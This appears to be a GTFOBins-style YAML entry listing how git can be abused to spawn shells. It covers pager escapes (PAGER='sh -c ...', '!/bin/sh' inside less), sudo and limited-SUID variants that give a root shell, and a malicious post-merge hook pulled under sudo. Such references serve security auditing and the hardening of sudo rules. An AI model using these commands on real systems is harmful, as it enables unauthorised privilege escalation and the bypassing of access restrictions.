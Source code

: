 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: This can be useful when only git pull is allowed sudo access. Any commands in the post-merge git hook of the repository which is pulled will be executed as root. This enables several ways to pop a root shell, including but not limited to: Adding an SSH key, starting a reverse shell and modifying /etc/passwd to create a new account with root access.
      code: |
        git remote add `name` `repo with malicious post-merge hook`
        sudo git pull `name`
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

